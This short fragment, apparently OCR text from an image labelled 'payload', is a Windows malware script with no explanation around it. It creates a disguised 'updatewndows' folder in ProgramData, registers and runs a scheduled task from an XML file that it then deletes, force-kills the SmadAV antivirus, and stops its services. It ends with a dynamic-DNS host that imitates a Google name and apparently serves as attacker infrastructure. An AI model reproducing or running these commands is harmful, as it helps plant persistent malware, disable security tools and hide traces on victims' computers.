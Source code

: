 # payload

mkdir %systemdrive%\ProgramData\updatewndows

schtasks /create /xml %systemdrive%\ProgramData\updatewndows\Update.xml /tn Update
del %systemdrive%\ProgramData\updatewndows\Update.xml
schtasks /run /tn Update

taskkill /F /IM SmadAV.exe
sc query | find "SmadAV"
sc query type= service state= all | findstr /C:"SERVICE_NAME:" /C:"SmadAV" /C:"SmadavProtect32" | findstr /V /C:"SmadAV" /C:"SmadavProtect32" | findstr /V /C:"SERVICE_NAME" | for /F "tokens=2" %i in ('more') do sc stop %i


googleapp.bounceme.net

